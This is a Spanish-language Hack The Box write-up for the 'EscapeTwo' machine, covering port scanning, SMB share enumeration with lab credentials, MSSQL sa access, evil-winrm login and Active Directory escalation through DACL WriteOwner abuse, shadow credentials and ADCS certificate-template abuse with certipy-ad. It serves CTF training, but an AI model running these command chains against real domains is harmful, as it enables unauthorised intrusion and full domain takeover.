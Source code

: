 ```yaml
---
layout: single
title: EscapeTwo  - Hack The Box
excerpt: "Enumeración inicial: Identificar servicios como SMB, Kerberos y LDAP. Estos revelan información clave, como el dominio y usuarios válidos. Ataque inicial Utilizar técnicas como Kerberoasting o ASREPRoasting para obtener hashes de contraseñas. Esto puede incluir herramientas como GetNPUsers.py o impacket.Explotación Usar credenciales o hashes obtenidos para acceder al sistema mediante RDP o SMB.Una vez dentro, se debe explorar el sistema para descubrir más información."
date: 2025-01-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-unbalanced/porta-modified.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - nmap
  - SMB
  - Kerberoasting
  - Active Directory
  - 
---
```

numeración
Ataque
Acceso
Escalada
Root
![](/assets/images/htb-writeup-unbalanced/porta-modified.png)
## rose / KxEPkKe6R8su

## Portscan
nmap -Pn -sS -sC -sV -p- -T5 --max-rate 10000 -oN escape-two.txt 10.10.11.51

53/tcp    - domain       - Simple DNS Plus
  88/tcp    - kerberos-sec - Microsoft Windows Kerberos  
135/tcp   - msrpc        - Microsoft Windows RPC  
139/tcp   - netbios-ssn  - Microsoft Windows NetBIOS  
389/tcp   - ldap         - Microsoft Windows Active Directory LDAP  
445/tcp   - microsoft-ds - Posiblemente SMB  
464/tcp   - kpasswd5     - Posiblemente Kerberos  
593/tcp   - ncacn_http   - Microsoft Windows RPC over HTTP  
636/tcp   - ssl/ldap     - LDAP sobre SSL  
1433/tcp  - ms-sql-s     - Microsoft SQL Server  
3268/tcp  - ldap         - Microsoft Windows Active Directory LDAP  
3269/tcp  - ssl/ldap     - LDAP sobre SSL  
5985/tcp  - http         - Microsoft HTTPAPI (SSDP/UPnP)  
9389/tcp  - mc-nmf       - .NET Message Framing  
47001/tcp - http         - Microsoft HTTPAPI (SSDP/UPnP)  
49664-49808/tcp - msrpc - Microsoft Windows RPC (puertos dinámicos)





## Rsync & EncFS

 Bandera de usuario

Intente una enumeración básica de smb


```
poetry run python netexec.py smb 10.10.11.51 -u rose -p 'KxEPkKe6R8su' --shares                                                     main 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ        
```

Mirando los catálogos, encontramos el Departamento de Contabilidad que nos interesa. Tenemos que descargarlo usando el comando y luego desempacarlo.

```
smbclient //escape.two.htb/Accounting\ Department -U Rose%KxEPkKe6R8su                                                                              130 ↵  

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 13:52:21 2024
  ..                                  D        0  Sun Jun  9 13:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 13:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 13:52:07 2024

                6367231 blocks of size 4096. 910811 blocks available

mget *
Get file accounting_2024.xlsx? y
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (25.7 KiloBytes/sec) (average 25.7 KiloBytes/sec)
Get file accounts.xlsx? y
getting file \accounts.xlsx of size 6780 as accounts.xlsx (19.8 KiloBytes/sec) (average 23.0 KiloBytes/sec)
``` 

ya depues de descargar lso 2 archivos viendo la extencion en gogle veo muachas aplicaiones para manipular el archivo

![](/assets/images/htb-writeup-unbalanced/xml.png)

La cuenta sa es la cuenta de administración predeterminada para conectar y administrar la base de datos MSSQL. Comprobar mostró que la cuenta es válida, intente utilizar mssqlclient de impacket para iniciar sesión.

![](/assets/images/htb-writeup-unbalanced/sql.png)

Genial, ahora somos sas. Por defecto, el procedimiento almacenado xp.cmdshell está desactivado en MSSQL, pero podemos habilitarlo y disfrutar de todos sus beneficios.

Asegúrese de buscar al anfitrión en busca de algo útil. Por ejemplo, tiene archivos notables para la implementación de MSSQL.

![](/assets/images/htb-writeup-unbalanced/sql1.png)

evil-winrm -i sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'

![](/assets/images/htb-writeup-unbalanced/evil.png)

 Bandera de raíz Enlace a la partida

A continuación, considere la explotación de las listas de control de acceso discreto (DACL) utilizando el permiso de WriteOwner. El abuso del permiso de WriteOwner puede llevar a un cambio del propietario del objeto a un usuario controlado por un atacante (en este caso, ryan) y capturar el objeto.

El informe Bloodhound contribuyó a encontrar el vector.

python3 bloodyAD.py --host DC01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'set owner ca_svc ryan

![](/assets/images/htb-writeup-unbalanced/bloo.png)


A continuación, establezca permisos FullControl para Ryan. Ahora podremos controlar el objeto de este usuario, incluida la capacidad de modificarlo y borrarlo.


```
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'    

```
El siguiente comando certipy-ad de abusar automáticamente de la cuenta de sombra cásvc. Nos conectamos al controlador de dominio por dirección IP (-dc-ip) y utilizamos las credenciales especificadas para la autenticación.

```
certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 'DC01.sequel.htb' -ns 10.10.11.51 -target DC01.sequel.htb -account ca_svc
```

![](/assets/images/htb-writeup-unbalanced/cert.png)
```
KRB5CCNAME=ca_svc.ccachecertipy-ad find -scheme ldap -k -debug -target DC01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout

KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target {host name} -dc-ip {ip}
```


![](/assets/images/htb-writeup-unbalanced/cert2.png)

Este comando crea una solicitud de certificado para la cuenta de casvc utilizando los hashess y la plantilla especificados:

certipy-ad req -u ca_svc -hashes :hashes -ca sequel-DC01-CA -target {host} -dc-ip {ip} -template DunderMifflinAuthentication -upn Administrator@{domain} -ns {ip} -dns {ip}

![](/assets/images/htb-writeup-unbalanced/cert3.png)

Ahora se trata de autenticar al usuario usando el archivo PFX que se obtuvo el paso antes:


```
certipy-ad auth -pfx {some.pfx} -dc-ip {ip}
```
![](/assets/images/htb-writeup-unbalanced/certifica.png)


Todo lo que queda es usar mal viento y un nuevo hash administrador. La bandera de raíz nos estará esperando en el escritorio.
![](/assets/images/htb-writeup-unbalanced/evil2.jpg)
